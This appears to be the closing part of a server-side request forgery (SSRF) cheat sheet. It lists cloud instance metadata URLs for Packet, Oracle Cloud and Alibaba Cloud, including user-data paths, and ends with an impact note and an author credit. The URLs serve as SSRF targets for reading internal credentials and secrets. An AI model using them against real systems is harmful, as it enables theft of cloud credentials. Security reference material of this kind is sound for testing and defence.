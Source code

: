 ```jsx
Packetcloud:
https://metadata.packet.net/userdata
```

```jsx
Oracle Cloud:
http://169.254.169.254/opc/v1/instance/
```

```jsx
Alibaba Cloud:
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
http://100.100.100.200/latest/user-data
```

## **Impact:**

An attacker can tunnel into internal networks and access sensitive internal data such as AWS metadata information.


## Author:
[Tushar Verma](https://twitter.com/e11i0t_4lders0n)
